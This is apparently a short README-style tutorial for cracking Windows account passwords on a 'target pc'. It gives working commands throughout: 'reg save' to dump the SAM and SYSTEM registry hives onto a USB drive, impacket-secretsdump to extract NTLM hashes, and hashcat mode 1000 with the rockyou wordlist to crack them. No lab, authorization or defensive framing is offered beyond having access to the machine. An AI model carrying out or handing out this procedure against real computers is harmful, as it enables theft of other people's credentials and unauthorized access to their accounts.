 This is for cracking window hash
level: 1
type: temporary access

Requirement:
- usb flash drive
- sam and system file
- rockyou.txt or other password list
- tools: impacket-secretsdump(turn sam and system into hash), hashcat(crack hash)

Tools installation: 
impacket-secretsdump and hashcat automatically install on kali 
for Debian base distros: 'sudo apt install impacket' & 'sudo apt install hashcat'
for Arch base distros: 'sudo pacman -S impacket' & 'sudo pacman -S hashcat'

Getting start:
make sure you have access to your target pc.
1. get sam and system file:
- make sure usb flash drive is plugged in your terget pc and make sure to remember it name (example: D:,E:,F:) 
2. in terminal:
- reg save HKLM\sam ./sam.save
- reg save HKLM\system ./sys.save
- copy sam.save D:
- copy sys.save D:
after saving the file eject the flash drive and plug it your pc.(make sure everything is ready)
3. move sam.save and sys.save from flash drive to pc
4. open your gui file system then go into /usr/share/wordlists/rockyou.txt.gz and move rockyou.txt into the same dir as sam.save and sys,save
5. in interminal cd into the dir that contain those file:
- impacket-secretsdump -sam sam.save -system sys.save (then copy the hash of the user which is the 'y' then paste in a new file hashes.txt. example:{user10:::xxxxxxxxxxxxxxxxxxxxxxxxx:yyyyyyyyyyyyyyyyyyyyyy:::})
- sudo hashcat -m 1000 hashes.txt rockyou.txt
6. if 'crack' it success if something else then it fail (try checking the list of password again or give more data to it and also check sam.save and sys.save if there any data lost)

